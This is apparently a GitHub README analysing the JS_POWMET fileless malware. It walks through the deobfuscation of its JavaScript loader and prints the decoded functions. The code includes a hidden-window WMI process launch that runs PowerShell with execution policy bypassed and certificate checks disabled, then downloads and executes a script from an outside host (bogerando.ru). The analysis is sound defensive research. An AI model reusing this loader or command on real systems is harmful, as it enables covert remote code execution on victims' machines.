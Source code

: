 # JS_POWMET
JS_POWMET Malware Analysis, Javascript, Analysis descriptions and more... =)

This repo will contain an analysis of JS_POWMET some files will be uploaded to this repo that will contain "malicious code".

You can get an analysis from trendmicro in the next url: http://blog.trendmicro.com/trendlabs-security-intelligence/look-js_powmet-completely-fileless-malware/


Now We will explain the analysis phases:

## Javascript JS_POWMET

First, we checked the xml file with embedded javascript (wscript) code, and we could see that everything was obfuscated on a line with different encodings.
So in a great effort and line by line, we started to study program's logic, and get the functionality of each method.


## How javascript malware works

<strong>We changed some code for its string equivalent, if you want to see the equivalent check code comments</strong>

First thing malware does, it is to rotate the variable array_cifrado_Antes_llamado_0xa994 (you have the output from this function in the variable array_cifrado_movido). 

Normal Array:
```javascript
var array_cifrado_Antes_llamado_0xa994 = [" /p1'))", 'winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2', 'Get', 'Win32_ProcessStartup', 'SpawnInstance_', 'ShowWindow', 'winmgmts:root\cimv2:Win32_Process', 'Create', '%SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe', 'FileExists', 'ExpandEnvironmentStrings', '%SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe', 'toPrecision', 'https://bogerando.ru', 'WScript.Shell', "Scripting.FileSystemObject", " -nop -ep Bypass -noexit -c [System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $true }; iex ((New-Object System.Net.WebClient).DownloadString('"];
```

Array rotated:
```javascript
var array_cifrado_movido = ['winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2', 'Get', 'Win32_ProcessStartup', 'SpawnInstance_', 'ShowWindow', 'winmgmts:root\cimv2:Win32_Process', 'Create', '%SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe', 'FileExists', 'ExpandEnvironmentStrings', '%SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe', 'toPrecision', 'https://bogerando.ru', 'WScript.Shell', "Scripting.FileSystemObject", " -nop -ep Bypass -noexit -c [System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $true }; iex ((New-Object System.Net.WebClient).DownloadString('"," /p1'))"];
```

Function to rotate array:
```javascript
 (function(array_cifrado_parametro, var_0x155) 
 {
	/*
	* gira 250 veces el array
	*/
	    var remueve_array = function(var_contador) {
		while (--var_contador) {
					// '\x70\x75\x73\x68' = push 
					// '\x73\x68\x69\x66\x74' = shift 

		    array_cifrado_parametro['push'](array_cifrado_parametro['shift']());
		}
	    };
	    remueve_array(++var_0x155);
        }(array_cifrado_Antes_llamado_0xa994, 0x155));
```

At the same time, It creates some variables:
```javascript
var wshel, fso, url, fpath, fextension, showexec, pspath;
```

Malware will use these variables in this code, this code will run the method abc_bbb if user has Powershell installed: 
```javascript
try {
var i = 0x258;
	// extraerString_AntesLlamado_0x4a99('0xb') = "toPrecision"
	alert(i["toPrecision"](0x1f40));
} catch (_0x356210) {
try {
	// extraerString_AntesLlamado_0x4a99('0xc') = "https://bogerando.ru"
    	url = "https://bogerando.ru";
    	showexec = 0x0;
	// extraerString_AntesLlamado_0x4a99('0xd') = "WScript.Shell"
   	 wshel = new ActiveXObject("WScript.Shell");
	//extraerString_AntesLlamado_0x4a99('0xe') = "Scripting.FileSystemObject"
    	fso = new ActiveXObject("Scripting.FileSystemObject");
    	if (is_ps_installed()) {
		// extraerString_AntesLlamado_0x4a99('0xf') = " -nop -ep Bypass -noexit -c [System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $true }; iex ((New-Object System.Net.WebClient).DownloadString('"
		// extraerString_AntesLlamado_0x4a99('0x10') = " /p1'))"
		abc_bbb(pspath + " -nop -ep Bypass -noexit -c [System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $true }; iex ((New-Object System.Net.WebClient).DownloadString('" + url + " /p1'))", showexec);
    }
} catch (_0x243c33) {}
```
Here is the powershell check code:
```javascript
function is_ps_installed() {
/*
* Función para obtener la ruta hacia powershell
*/
	//\x45\x78\x70\x61\x6e\x64\x45\x6e\x76\x69\x72\x6f\x6e\x6d\x65\x6e\x74\x53\x74\x72\x69\x6e\x67\x73 = ExpandEnvironmentStrings
	pspath = wshel['ExpandEnvironmentStrings']("%SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe"); // extraerString_AntesLlamado_0x4a99('0x7') =  "%SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe"
	// extraerString_AntesLlamado_0x4a99('0x8') = "FileExists"
	if (fso["FileExists"](pspath)) {
	    return pspath;
	} else {
		// extraerString_AntesLlamado_0x4a99('0x9') = "ExpandEnvironmentStrings"
		// extraerString_AntesLlamado_0x4a99('0xa') = "%SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe"
	    pspath = wshel["ExpandEnvironmentStrings"]("%SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe");
	    if (fso["FileExists"](pspath)) {
		return pspath;
	    }
	}
	return null;
}
```
Finally the abc_bbb code, will create some winmgmts objects to run powershell with a hidden console, this powershell command will download and run powershell code. Here is the abc_bbb function:
```javascript
function abc_bbb(_0xe83a79, showexec_0x52b22a) {
/*
* abc_bbb Ejecuta metodos winmgmts sin mostrar nada 
* 
* showexec_0x52b22a = 0x0 (No mostrar consola)
*/
try {
	    var _0x32ce2c = GetObject("winmgmts:{impersonationLevel=impersonate}!\.ootcimv2"); //  extraerString_AntesLlamado_0x4a99('0x0') = "winmgmts:{impersonationLevel=impersonate}!\.ootcimv2"
	    var _0x6b4dc5 = _0x32ce2c["Get"]("Win32_ProcessStartup"); // extraerString_AntesLlamado_0x4a99('0x1') = "Get" , extraerString_AntesLlamado_0x4a99('0x2') = "Win32_ProcessStartup"
	    var Object_config_0xa44dcc = _0x6b4dc5["SpawnInstance_"](); // extraerString_AntesLlamado_0x4a99('0x3') = "SpawnInstance_"
	    Object_config_0xa44dcc["ShowWindow"] = showexec_0x52b22a; // extraerString_AntesLlamado_0x4a99('0x4') = "ShowWindow"
	    var _0x180dea = GetObject("winmgmts:rootcimv2:Win32_Process"); // extraerString_AntesLlamado_0x4a99('0x5') = "winmgmts:rootcimv2:Win32_Process"
	    var Process_ID_0x321dea; // aqui guardara el PID del proceso
	    return _0x180dea["Create"](_0xe83a79, null, Object_config_0xa44dcc, Process_ID_0x321dea); // extraerString_AntesLlamado_0x4a99('0x6') = "Create"
	} catch (_0x352a82) {}
	// ![] = false
	return false;
}
```
Last function is an interesting function to decode each line from first array, instead of using normal javascript functions to decode the line, it will decode character by character.
```javascript
var extraerString_AntesLlamado_0x4a99 = function(valor_entero_Antes_llamado_0x38fb4f, no_vale_para_nada) 
{
    valor_entero_Antes_llamado_0x38fb4f = valor_entero_Antes_llamado_0x38fb4f - 0x0;
    var linea_array_cifrado = array_cifrado_Antes_llamado_0xa994[valor_entero_Antes_llamado_0x38fb4f];
	//\x69\x6e\x69\x74\x69\x61\x6c\x69\x7a\x65\x64 = initialized
    if (extraerString_AntesLlamado_0x4a99['initialized'] === undefined) {
        (function() {
			/*
			* Función para decodificar cada linea de base64 letra a letra 
			* intenta ofuscar el método de decodificación.
			*/
			//\x72\x65\x74\x75\x72\x6e\x20\x28\x66\x75\x6e\x63\x74\x69\x6f\x6e\x20\x28\x29\x20 = return (function () 
			//\x7b\x7d\x2e\x63\x6f\x6e\x73\x74\x72\x75\x63\x74\x6f\x72\x28\x22\x72\x65\x74\x75\x72\x6e\x20\x74\x68\x69\x73\x22\x29\x28\x29 = {}.constructor("return this")()
			//\x29\x3b = );
            var _0x4df2e5 = Function('return (function ()' + '{}.constructor("return this")()' + ');');
            var _0x38fe1b = _0x4df2e5(); // retorna función anonima
			//'\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x2b\x2f\x3d' =  ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=
            var _0x1dc063 = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=';
			//\x61\x74\x6f\x62 =  atob (decodifica una cadena en base64)
            _0x38fe1b['atob'] || (_0x38fe1b['atob'] = function(_0x3e2949) {
				// \x72\x65\x70\x6c\x61\x63\x65 = replace
				/* 
				* var _0x3644f3 = String(_0x3e2949)['replace'](/=+$/, ''); 
				* Creemos  que esta función reemplaza todos los iguales de final de linea por nada
				*/
                var _0x3644f3 = String(_0x3e2949)['replace'](/=+$/, '');
				//\x63\x68\x61\x72\x41\x74 = charAt
				//\x66\x72\x6f\x6d\x43\x68\x61\x72\x43\x6f\x64\x65 = fromCharCodefromCharCode
				//\x69\x6e\x64\x65\x78\x4f\x66 = indexOf
                for (var i = 0x0, j, l, k = 0x0, m = ''; //inicializacion
				l = _0x3644f3['charAt'](k++); //finalizacion
				~l && (j = i % 0x4 ? j * 0x40 + l : l, i++ % 0x4) ? m += String['fromCharCodefromCharCode'](0xff & j >> (-0x2 * i & 0x6)) : 0x0) //modificacion
				{
                    l = _0x1dc063['indexOf'](l);
                }
                return m;
            });
        }());
        //\x62\x61\x73\x65\x36\x34\x44\x65\x63\x6f\x64\x65\x55\x6e\x69\x63\x6f\x64\x65 =  base64DecodeUnicode
		extraerString_AntesLlamado_0x4a99['base64DecodeUnicode'] = function(_0x12e606) {
			/*
			* Codificador a hexadecimal de las cadenas
			* finalmente lo decodifica como URIs
			*/
            var base64_decodificado = atob(_0x12e606);
            var _0x29e7ff = [];
			//\x6c\x65\x6e\x67\x74\x68 = length
            for (var i = 0x0, j = base64_decodificado['length']; i < j; i++) {
				// \x25 %
				// \x30 0 
				// \x63\x68\x61\x72\x43\x6f\x64\x65\x41\x74 = charCodeAt
				// \x74\x6f\x53\x74\x72\x69\x6e\x67 = toString
				// \x73\x6c\x69\x63\x65 = slice
                _0x29e7ff += '%' + ('00' + base64_decodificado['charCodeAt'](i)['toString'](16))['slice'](-0x2);
            }
            return decodeURIComponent(_0x29e7ff);
        };
		// \x64\x61\x74\x61 = data
        extraerString_AntesLlamado_0x4a99['data'] = {};
		//\x69\x6e\x69\x74\x69\x61\x6c\x69\x7a\x65\x64 = initialized
		// inicializa a true 
		// !![] = true
        extraerString_AntesLlamado_0x4a99['initialized'] = true;
    }
    if (extraerString_AntesLlamado_0x4a99['data'][valor_entero_Antes_llamado_0x38fb4f] === undefined) {
		//\x62\x61\x73\x65\x36\x34\x44\x65\x63\x6f\x64\x65\x55\x6e\x69\x63\x6f\x64\x65 = base64DecodeUnicode
        linea_array_cifrado = extraerString_AntesLlamado_0x4a99['base64DecodeUnicode'](linea_array_cifrado);
        extraerString_AntesLlamado_0x4a99['data'][valor_entero_Antes_llamado_0x38fb4f] = linea_array_cifrado;
    } else {
        linea_array_cifrado = extraerString_AntesLlamado_0x4a99['data'][valor_entero_Antes_llamado_0x38fb4f];
    }
    return linea_array_cifrado;
};
```


You can check the obfuscated code in: <a href="https://github.com/Fare9/JS_POWMET/blob/master/JS_POWMET.DE.xml">JS_POWMET.DE.xml</a>

The deobfuscated code in: <a href="https://github.com/Fare9/JS_POWMET/blob/master/JS_POWMET.DE(desofuscado).xml.js">JS_POWMET.DE(deobfuscated).xml</a>

And the Strings: <a href="https://github.com/Fare9/JS_POWMET/blob/master/CadenasCodificadasDescodificadas">Strings</a>



## Analysts

- <a href="https://es.linkedin.com/in/aperezreyes">Alberto Pérez Reyes</a>
- <a href="https://www.linkedin.com/in/eduardo-blazquez-23093999/">Eduardo Blázquez (a.k.a Fare9)</a>


## Remember visit and follow

- <a href="https://github.com/Fare9">https://github.com/Fare9</a>
- <a href="https://github.com/campeador">https://github.com/campeador</a>
- <a href="https://twitter.com/Erockandblues">Fare9 Twitter</a>
